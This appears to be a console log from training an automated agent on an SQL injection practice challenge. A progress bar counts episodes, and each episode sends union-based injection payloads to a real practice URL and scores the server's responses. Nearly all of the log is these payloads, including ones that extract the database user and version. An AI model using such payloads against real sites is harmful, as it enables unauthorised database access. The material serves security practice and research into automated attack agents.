  0%|          | 2458/1000000 [14:04:33<1005:33:27,  3.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1-

  0%|          | 2459/1000000 [14:04:58<2815:38:54, 10.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2460/1000000 [14:04:59<2034:32:10,  7.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2461/1000000 [14:05:00<1488:16:43,  5.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2462/1000000 [14:05:00<1106:24:31,  3.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2463/1000000 [14:05:01<841:38:55,  3.04s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2464/1000000 [14:05:02<653:36:59,  2.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2465/1000000 [14:05:03<534:38:37,  1.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2466/1000000 [14:05:04<452:34:24,  1.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2467/1000000 [14:05:05<381:22:47,  1.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number o

  0%|          | 2468/1000000 [14:05:35<2776:35:04, 10.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2469/1000000 [14:05:36<2009:40:28,  7.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2470/1000000 [14:05:36<1472:28:37,  5.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2471/1000000 [14:05:37<1094:37:06,  3.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2472/1000000 [14:05:38<831:41:41,  3.00s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2473/1000000 [14:05:39<650:52:44,  2.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax

  0%|          | 2474/1000000 [14:05:51<1501:59:33,  5.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/

  0%|          | 2475/1000000 [14:06:13<2805:50:28, 10.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2476/1000000 [14:06:13<2029:30:11,  7.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2477/1000000 [14:06:14<1483:03:59,  5.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2478/1000000 [14:06:15<1104:04:34,  3.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2479/1000000 [14:06:16<843:28:37,  3.04s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2480/1000000 [14:06:17<737:53:10,  2.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2481/1000000 [14:06:22<899:39:06,  3.25s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2482/1000000 [14:06:24<755:03:41,  2.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2483/1000000 [14:06:24<592:37:58,  2.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2484/1000000 [14:06:25<478:47:12,  1.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2485/1000000 [14:06:26<397:44:54,  1.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax

  0%|          | 2486/1000000 [14:06:43<1691:35:54,  6.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2487/1000000 [14:06:44<1253:57:40,  4.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2488/1000000 [14:06:45<944:19:58,  3.41s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2489/1000000 [14:06:45<727:29:14,  2.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2490/1000000 [14:06:46<571:27:07,  2.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2491/1000000 [14:06:47<464:32:11,  1.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2492/1000000 [14:06:48<391:00:45,  1.41s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Qu

  0%|          | 2493/1000000 [14:08:07<6888:04:22, 24.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2494/1000000 [14:08:08<4891:15:32, 17.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2495/1000000 [14:08:09<3487:29:20, 12.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 '

  0%|          | 2496/1000000 [14:09:13<7743:23:53, 27.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2497/1000000 [14:09:13<5449:13:31, 19.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://

  0%|          | 2498/1000000 [14:09:45<6509:47:03, 23.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2499/1000000 [14:09:46<4637:50:07, 16.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2500/1000000 [14:09:47<3310:33:59, 11.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2501/1000000 [14:09:48<2380:15:54,  8.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2502/1000000 [14:09:49<1749:55:41,  6.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2503/1000000 [14:09:50<1289:26:03,  4.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2504/1000000 [14:09:50<963:06:10,  3.48s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2505/1000000 [14:09:51<737:44:17,  2.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2506/1000000 [14:09:52<576:53:22,  2.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2507/1000000 [14:09:53<472:07:40,  1.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2508/1000000 [14:09:53<393:01:12,  1.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2509/1000000 [14:09:54<337:48:04,  1.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2510/1000000 [14:09:57<450:41:20,  1.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2511/1000000 [14:09:57<375:36:07,  1.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
http

  0%|          | 2512/1000000 [14:10:06<974:05:35,  3.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2513/1000000 [14:10:07<744:21:27,  2.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
h

  0%|          | 2514/1000000 [14:10:18<1415:14:12,  5.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2515/1000000 [14:10:18<1054:30:05,  3.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2516/1000000 [14:10:19<803:00:53,  2.90s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2517/1000000 [14:10:20<626:33:12,  2.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Sy

  0%|          | 2518/1000000 [14:10:30<1277:28:31,  4.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2519/1000000 [14:10:31<957:19:03,  3.46s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2520/1000000 [14:10:32<740:49:12,  2.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2521/1000000 [14:10:33<667:56:34,  2.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2522/1000000 [14:10:35<561:27:37,  2.03s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2523/1000000 [14:10:35<460:42:37,  1.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2524/1000000 [14:10:36<392:26:46,  1.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2525/1000000 [14:10:41<637:57:11,  2.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2526/1000000 [14:10:41<507:20:53,  1.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2527/1000000 [14:10:42<417:37:40,  1.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with 

  0%|          | 2528/1000000 [14:12:50<10897:48:09, 39.33s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2529/1000000 [14:12:50<7699:34:54, 27.79s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc n

  0%|          | 2530/1000000 [14:13:02<6325:32:15, 22.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2531/1000000 [14:13:02<4489:55:06, 16.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
